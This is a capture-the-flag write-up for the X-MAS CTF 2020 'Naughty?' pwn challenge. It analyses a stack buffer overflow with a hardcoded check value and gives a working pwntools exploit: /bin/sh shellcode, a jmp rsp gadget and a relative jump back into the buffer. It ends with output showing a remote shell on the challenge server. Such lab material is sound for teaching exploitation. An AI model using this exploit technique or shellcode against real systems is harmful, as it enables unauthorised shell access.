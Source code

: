 # X-MAS CTF 2020

## Naughty?

> ??
>
> You haven't been naughty, have you?
>
> Target: `nc challs.xmas.htsp.ro 2000`
> 
> Author: Th3R4nd0m
> 
> [naughty.zip](naughty.zip)

Tags: _pwn_ _x86-64_ _bof_ _rop_ _shellcode_ _remote-shell_


## Summary

Constrained space shellcode exploit triggered with a relative jump--_naughty_.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations in place.  Choose your own adventure.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_38 [46];
  short local_a;
  
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_a = -0x1b01;
  puts("Tell Santa what you want for XMAS");
  fgets(local_38,0x47,stdin);
  puts("Nice. Hope you haven\'t been naughty");
  if (local_a != -0x1b01) {
    puts("Oh no....no gifts for you this year :((");
    exit(0);
  }
  return 0;
}
```

Vulnerability `fgets(local_38,0x47,stdin)` is writing up to `0x47` bytes into a `46` byte buffer that is `0x38` (`local_38`) bytes from the return address.  Along they way `local_a` must be set to `-0x1b01`--_think hardcoded canary_.

To overflow the return address we'll have to send `0x38 - 0xa` (46) bytes of garbage followed by the 2 bytes `-0x1b01` to pass the check, followed by `0x38 - (0x38 - 0xa) - 2` (8) more bytes of garbage.  The total payload to get to the return address should be `0x38` (56) bytes in length.

`fgets` reads one less than size (`0x47`) giving a max ROP overflow of `0x46 - 0x38` (14) bytes.  That's only enough space for one ROP call (well, two ROP calls since (as of this writing) x86_64 addresses are 48-bits (6 bytes)).  And there's no easy `win` function.

Given NX is disabled that natural place to write shellcode would be in `local_38`, as long as that code fits within 46 bytes (easy).

_But how do we call it?_

Simpler challenges like this conveniently leave `rax` pointing to the buffer and a simple `call rax` or `jmp rax` gadget can be used, however setting a checkpoint at `leave` and examining the registers illustrates we're on our own:

```
➜ 20.04 naughty # gef chall
Reading symbols from chall...
(No debugging symbols found in chall)
GEF for linux ready, type `gef' to start, `gef config' to configure
80 commands loaded for GDB 9.2 using Python engine 3.8
gef➤  b *0x4006d4
Breakpoint 1 at 0x4006d4
gef➤  run
Starting program: /pwd/datajerk/xmasctf2020/naughty/chall
Tell Santa what you want for XMAS
flags
```

After the break:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe360  →  0x00000a7367616c66 ("flags\n"?)
$rbp   : 0x00007fffffffe390  →  0x0000000000000000
$rsi   : 0x00007ffff7fad723  →  0xfaf4c0000000000a
$rdi   : 0x00007ffff7faf4c0  →  0x0000000000000000
$rip   : 0x00000000004006d4  →   leave
$r8    : 0x24
$r9    : 0x0
$r10   : 0x00007ffff7fef320  →   pxor xmm0, xmm0
$r11   : 0x246
$r12   : 0x0000000000400550  →   xor ebp, ebp
$r13   : 0x00007fffffffe480  →  0x0000000000000001
$r14   : 0x0
$r15   : 0x0
```

However, `rsp` is pointing at our input (`flags`), _why not `jmp rsp`?_

Well, `si` once and you'll see that `leave` just _left_ you hanging:

```
$rax   : 0x0
$rbx   : 0x00000000004006e0  →   push r15
$rcx   : 0x00007ffff7ed21e7  →  0x5177fffff0003d48 ("H="?)
$rdx   : 0x0
$rsp   : 0x00007fffffffe398  →  0x00007ffff7de80b3  →  <__libc_start_main+243> mov edi, eax
```

`rsp` now pointing to back to libc.  This will be popped into `rip` (we didn't overwrite the return address yet).

If we overwrite the return address with a `jmp rsp` gadget, that call will be popped off the stack and `rsp` pointed to the next down stack line (our last 6 bytes), then `rip` will be pointing to the `jmp rsp` gadget.  So, that leaves us (14 - 8 (for the `jmp rsp`)) 6 bytes for our shellcode.

There's not a lot you can do with 6 bytes but perhaps `jmp` someplace else (I could be wrong), in any case, we only need 2 bytes to relatively jump back `0x40` (`0x38` + 8 for the `jmp rsp` gadget) bytes to the start of `local_38` where we can easily fit some shellcode.

> As I write this I'm wondering if there is an easier ROP chain of 2 gadgets, but nothing is coming to mind.  When I worked on this I did some bad mental math and thought I only had `4` bytes to work with, so assumed `jmp rsp`, then some type stack pivot or relative jump in assembly.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall')
context.log_level = 'INFO'

if args.REMOTE:
    p = remote('challs.xmas.htsp.ro', 2000)
else:
    p = process(binary.path)

# http://shell-storm.org/shellcode/files/shellcode-905.php
shellcode  = b''
shellcode += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf'
shellcode += b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54'
shellcode += b'\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

jmp_rsp = list(binary.search(asm('jmp rsp')))[0]

```

`ropper --file chall` reveals there's a `jmp rsp` gadget, so after finding online some shellcode <= 46 bytes in length, we just need to find the location of the `jmp rsp` gadget within `chall`, and since `chall` has no PIE, there's no need to leak a base process address.

```python
payload  = b''
payload += shellcode
payload += (0x38 - 0xa - len(payload)) * b'A'
payload += p16(0x10000 - 0x1b01)
payload += (0x38 - len(payload)) * b'A'
payload += p64(jmp_rsp)
payload += asm('jmp $-0x40')

p.sendlineafter('for XMAS\n', payload)
p.interactive()
```

The payload is basically as described in the analysis section above:

1. write out shellcode
2. pad out to stack offset `0xa`
3. write out the 2-byte _faux_ hardcoded canary `-0x1b01`
4. pad out to the return adddress
5. call the `jmp rsp` gadget, that will then just execute the assembly below it
6. add a 2 bytes of assembly that `jmp` relative back `0x40` bytes to our shellcode

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/xmasctf2020/naughty/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challs.xmas.htsp.ro on port 2000: Done
[*] Switching to interactive mode
Nice. Hope you haven't been naughty
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{sant4_w1ll_f0rg1ve_y0u_th1s_y3ar}
```

